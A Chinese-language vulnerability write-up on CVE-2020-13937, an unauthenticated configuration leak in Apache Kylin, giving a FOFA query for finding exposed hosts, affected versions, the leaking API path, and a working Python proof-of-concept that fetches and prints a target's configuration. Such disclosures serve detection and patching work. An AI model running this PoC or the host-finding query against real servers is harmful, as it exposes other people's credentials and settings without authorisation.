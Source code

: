 # Apache Kylin的未授权配置泄露 CVE-2020-13937

## 漏洞描述

Apache Kylin有一个restful api会在没有任何认证的情况下暴露配置信息。

### FOFA

> [!NOTE]
>
> app="APACHE-kylin"

## 漏洞影响

> [!NOTE]
>
> Apahche Kylin 2.x.x
>
> Apahche Kylin <= 3.1.0
>
> Apahche Kylin 4.0.0-alpha

## 漏洞复现

根据漏洞情报

![](image/apache kylin-1.png)

漏洞利用POC为  http://xxx.xxx.xxx.xxx/kylin/api/admin/config

![](image/apache kylin-2.png)

## 漏洞检测POC

```python
import requests

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Kylin 2.x.x <= 3.1.0 Kylin 4.0.0-alpha            \033[0m')
    print('+  \033[36m使用格式: python3 cve-2019-13937.py                                 \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:9999                            \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url + "/kylin/api/admin/config"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36"
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, timeout=20)
        if "config" in response.text:
            print("\033[32m[o] 存在Apache Kylin的未授权配置泄露\n[o] 响应为:\n\033[0m",response.text)
        else:
            print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
    except:
        print("\033[31m[x] 目标Url漏洞利用失败\033[0m")

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](image/apache kylin-3.png)

##  Goby && POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> Apache_Kylin_Unauthorized_configuration_disclosure.json

![](image/kylin-25.png)

### 参考

[CVE-2020-13937|Apache Kylin的未授权配置泄露漏洞，腾讯安全全面支持检测](https://s.tencent.com/research/bsafe/1156.html)